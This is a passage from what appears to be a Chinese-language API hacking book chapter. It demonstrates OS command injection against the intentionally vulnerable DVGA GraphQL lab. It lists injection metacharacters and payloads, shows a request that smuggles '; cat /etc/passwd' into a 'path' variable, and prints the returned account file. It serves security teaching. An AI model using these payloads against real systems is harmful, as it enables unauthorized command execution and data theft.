接下来，配置你的两组有效载荷。对于第一组有效载荷，我们从第十二章中取一个元字符示例：

`|`

`||`

`&`

`&&`

`'`

`"`

`;`

`'"`

对于第二组有效载荷，我们使用来自第十二章的潜在注入有效载荷示例：

`whoami`

`{"$where": "sleep(1000) "}`

`;%00`

`-- -`

最后，确保禁用有效载荷编码。

现在让我们对主机变量进行攻击。如你在图 14-14 中看到的，结果是一致的，没有出现异常。所有的状态代码和响应长度都相同。

你可以查看响应以了解它们的内容，但从这次初步扫描来看，似乎没有什么有趣的东西。

现在让我们瞄准 `"path"` 变量：

```
"variables":{"host":"google.com","port":80,**"****path****":"/****§test§§test2§****"**,"scheme":"http"}}
```



图 14-14：对主机变量攻击的入侵者结果

我们将使用与第一次攻击相同的有效载荷。正如你在图 14-15 中看到的，我们不仅收到了各种响应代码和长度，还收到了成功执行代码的指示。



图 14-15：对 `"path"` 变量攻击的入侵者结果

通过查看响应，你可以发现其中有几个响应容易受到 `whoami` 命令的影响。这表明 `"path"` 变量容易受到操作系统注入的攻击。此外，命令返回的用户是特权用户 `root`，这表明该应用程序正在运行在 Linux 主机上。你可以更新你的第二组有效载荷，包含 Linux 命令 `uname -a` 和 `ver` 来查看你正在与哪个操作系统进行交互。

一旦你发现了操作系统，你就可以进行更有针对性的攻击，以获取系统中的敏感信息。例如，在列表 14-3 中显示的请求中，我将`"path"`变量替换为`/; cat /etc/passwd`，这将尝试让操作系统返回包含主机系统账户列表的*/etc/passwd*文件，如列表 14-4 所示。

```
POST /graphql HTTP/1.1
Host: 192.168.195.132:5000
Accept: application/json
Content-Type: application/json
`--snip--`

{"variables": {"scheme": "http",
"path": "/ **;** **cat /etc/passwd",**
"port": 80, "host": "test.com"},
"query": "mutation ImportPaste ($host: String!, $port: Int!, $path: String!, $scheme: String!) {\n        importPaste(host: $host, port: $port, path: $path, scheme: $scheme) {\n          result\n        }\n      }"}
```

列表 14-3：请求

```
HTTP/1.0 200 OK
Content-Type: application/json
Content-Length: 1516
`--snip--`

{"data":{"importPaste":{"result":"<!DOCTYPE HTML PUBLIC \"-//IETF//DTD HTML 2.0//EN\">\n<html><head>\n<title>301 Moved Permanently</title>\n</head><body>\n
<h1>Moved Permanently</h1>\n<p>The document has moved <a href=\"https://test.com/\">here</a>.</p>\n</body></html>\**n**
**root:x:0:0:root:/root:/bin/ash\nbin:x:1:1:bin:/bin:/sbin/nologin\ndaemon:x:2:2:daemon:/sbin:/sbin/nologin\nadm:x:3:4:adm:/var/adm:/sbin/nologin\nlp:x:4:7:lp:/var/spool/lpd:/sbin/nologin\nsync:x:5:0:sync:/sbin:/bin/sync\nshutdown:x:6:0:shutdown:/sbin:/sbin/shutdown\nhalt:x:7:0:halt:/sbin:/sbin/halt\nmail:x:8:12:mail:/var/mail:/sbin/nologin\nnews:x:9:13:news:/usr/lib/news:/sbin/nologin\nuucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin\noperator:x:11:0:operator:/root:/sbin/nologin\nman:x:13:15:man:/usr/man:/sbin/nologin\npostmaster:x:14:12:postmaster:/var/mail:/sbin/nologin\ncron:x:16:16:cron:/var/spool/cron:/sbin/nologin\nftp:x:21:21::/var/lib/ftp:/sbin/nologin\nsshd:x:22:22:sshd:/dev/null:/sbin/nologin\nat:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin\nsquid:x:31:31:Squid:/var/cache/squid:/sbin/nologin\nxfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin\ngames:x:35:35:games:/usr/games:/sbin/nologin\ncyrus:x:85:12::/usr/cyrus:/sbin/nologin\nvpopmail:x:89:89::/var/vpopmail:/sbin/nologin\nntp:x:123:123:NTP:/var/empty:/sbin/nologin\nsmmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin\nguest:x:405:100:guest:/dev/null:/sbin/nologin\nnobody:x:65534:65534:nobody:/:/sbin/nologin\nutmp:x:100:406:utmp:/home/utmp:/bin/false**\n"}}}
```

列表 14-4：响应

你现在已经能够在 Linux 操作系统中以 root 用户身份执行所有命令。就这样，我们能够通过 GraphQL API 注入系统命令。从这里开始，我们可以继续利用这个命令注入漏洞枚举信息，或者使用命令获取系统的 shell。无论哪种方式，这都是一个非常重要的发现。干得好，成功利用了 GraphQL API！

## 总结

在这一章中，我们通过一些本书中讲解的技术，演示了如何攻击一个 GraphQL API。GraphQL 的工作方式与我们之前接触过的 REST API 不同。然而，一旦我们对 GraphQL 做了一些调整，我们就能够应用许多相同的技术，进行一些非常酷的攻击。不要被你可能遇到的新 API 类型吓倒；相反，拥抱这项技术，了解它的运作方式，然后尝试你已经学到的 API 攻击。

DVGA 还有几个漏洞我们在这一章没有覆盖。我建议你返回实验室，利用这些漏洞。在最后一章，我将展示一些涉及 API 的真实世界泄露和赏金案例。
